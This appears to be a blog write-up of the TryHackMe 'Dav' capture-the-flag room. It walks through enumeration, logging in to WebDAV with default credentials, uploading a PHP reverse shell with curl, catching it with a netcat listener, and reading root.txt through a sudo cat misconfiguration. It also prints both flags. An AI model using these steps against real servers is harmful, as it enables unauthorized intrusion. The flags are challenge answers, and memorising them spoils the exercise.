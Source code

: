 ```yaml
---
title: "Dav - TryHackMe"
author: Ludovic COULON
date: 2020-05-30
hero: ./images/hero.jpeg
excerpt: "Writeup for the Dav room on TryHackMe"
---
```


[TryHackMe | Dav](https://tryhackme.com/room/bsidesgtdav)

Read user.txt and root.txt

### Setup

```bash
➜  TryHackMe nmap -A -vv 10.10.33.240
```

```bash
80/tcp open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
| http-methods:
|_  Supported Methods: POST OPTIONS GET HEAD
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
```

```bash
➜  TryHackMe gobuster dir -u http://10.10.33.240 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.33.240
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/05/30 16:54:40 Starting gobuster
===============================================================
/webdav (Status: 401)
```

```bash
# There is a creds to acces the page just google webdav default creds"
http://xforeveryman.blogspot.com/2012/01/helper-webdav-xampp-173-default.html
user: wampp
pass: xampp
```

<div className="Image__Medium">
  <img src="https://imgur.com/BKDICjY.png" alt="blog_image" />
</div>

```bash
# Don't try to crack the hash its a rabit hole (sad life :'c)
wampp:$apr1$Wm2VTkFL$PVNRQv7kzqXQIHe14qKA91
```

Let's get a reverse shell on the server ! 🤑

[Learning Pentesting with Metasploitable3: Exploiting WebDAV](https://resources.infosecinstitute.com/learning-pentesting-metasploitable3-exploiting-webdav-2/#gref)

```bash
➜  TryHackMe curl –v --user wampp:xampp http://10.10.33.240/webdav/verify.txt -X PUT
curl: (3) Failed to convert –v to ACE; string contains a disallowed character

<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>201 Created</title>
</head><body>
<h1>Created</h1>
<p>Resource /webdav/verify.txt has been created.</p>
<hr />
<address>Apache/2.4.18 (Ubuntu) Server at 10.10.33.240 Port 80</address>
</body></html>
```

<div className="Image__Medium">
  <img src="https://imgur.com/xtdInMA.png" alt="blog_image" />
</div>

Nice, let's try with a php reverse shell shall we ? 😃

### #1 user.txt

```bash
➜  TryHackMe curl --user wampp:xampp http://10.10.33.240/webdav/reverse-shell.php --upload-file reverse-shell.php -X PUT
➜  TryHackMe nc -lvnp 4444
```

<div className="Image__Medium">
  <img src="https://imgur.com/iIe25rq.png" alt="blog_image" />
</div>

```bash
$ cd /home
$ ls
merlin
wampp
$ cd merlin
$ ls
user.txt
$ cat user.txt
449b40fe93f78a938523b7e4dcd66d2a
```

### #2 root.txt

```bash
$ sudo -l
Matching Defaults entries for www-data on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ubuntu:
    (ALL) NOPASSWD: /bin/cat
$ sudo cat /root/
cat: /root/: Is a directory
$ sudo cat /root/root.txt
101101ddc16b0cdf65ba0b8a7af7afa5
```

<center>
  <a href="https://tryhackme.com/p/boperXD" target="_blank">
    <img src="https://i.imgur.com/tpmhPhO.png" alt="TryhackMeProfile" />
  </a>
</center>
